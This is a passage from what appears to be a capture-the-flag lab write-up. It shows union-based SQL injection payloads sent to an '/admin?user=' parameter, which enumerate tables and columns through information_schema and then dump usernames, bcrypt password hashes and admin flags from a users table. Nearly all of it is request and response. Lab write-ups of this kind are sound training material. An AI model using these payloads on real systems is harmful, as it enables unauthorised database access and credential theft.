 

Request;

```sql
user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

Response;

```html
<div>
          User items,messages,users <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
```

There are three tables. ie users,messages and items.



Request;

```sql
/admin?user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -
```

Response;

```html
<br />
          ID: id
,username
,password
,isAdministrator
 <br />
```

There are 4 colums: ie id,username,password and isAdministrator. So lets dump all the contents of the users table.



Request;

```sql
/admin?user=0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
```

Response;

```html
 <div>
          User 1:system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW:0
,2:michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q:1
,3:jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG:1
,4:a:$2b$10$O9iXKuQ.xG1ckYhmmYDtzeG2V6O1D8gIUHCrg.iDOK4j3Co.Qgy16:0
 <br />
```
